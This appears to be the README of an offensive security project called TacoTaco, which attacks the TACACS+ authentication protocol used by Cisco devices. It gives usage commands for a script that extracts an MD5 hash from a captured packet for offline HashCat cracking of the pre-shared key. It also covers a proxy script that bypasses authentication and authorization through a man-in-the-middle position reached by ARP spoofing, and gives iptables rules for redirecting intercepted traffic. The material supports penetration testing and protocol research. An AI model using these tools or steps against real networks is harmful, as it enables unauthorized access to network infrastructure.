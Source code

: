 # TacoTaco
TacoTaco is a project about attacks on TACACS+ protocol.

--------------------

1) tac2cat.py - A converter of a TACACS+ packet to a format of the HashCat. The script helps you to extract a MD5_1 hash from a TACACS+ authentication packet. Then you can perform a local brute force attack on the MD5 hash and get a PSK.

Example:
```
  python tac2cat.py -t 1  -m "Password: " -p c0010200acf4c30b00000010c73c409532a4a80e58ba94391111e300
```
Where:
```
  -t 1 – 1 – SSH, 2 - Telnet
  -m "Password: " – a greeting message from a ssh service of a Cisco device
  -p – a hex stream of the second packet (TACACS+ layer) from the Wireshark.
```

--------------------

2) tacoflip.py is a script that you the opportunity to bypass authentication and authorization on a Cisco device that uses a TACACS+ server for AAA. You just need to perform a MitM attack on the Cisco device and the TACACS+ server (arp spoofing, for example)

Example:
```
  python tacoflip.py –t 192.168.0.100
```
Where 192.168.0.100 is an IP address of a TACACS+ server.

The video shows whole process of the attack: http://www.youtube.com/watch?v=HdTib8wftHA

  _Note!_
  Because tacoflip.py works as TCP proxy, if TACACS server is located within different broadcast domain, 
  you may want to use NAT in order to redirect intercepted TACACS communication to script listening on 0.0.0.0:49.
  Example commands:
```
iptables -t nat -A PREROUTING -p tcp --dport 49 -d <TACACS_SERVER> -j DNAT --to-destination <YOUR_IP>
iptables -t nat -A POSTROUTING -p tcp --dport 49 -s <YOUR_IP> -j SNAT --to <CISCO_TARGET>
```

--------------------

3) sample dir consists some examples: a router config, a tac_plus config and pcap files of authentication process (telnet, ssh).



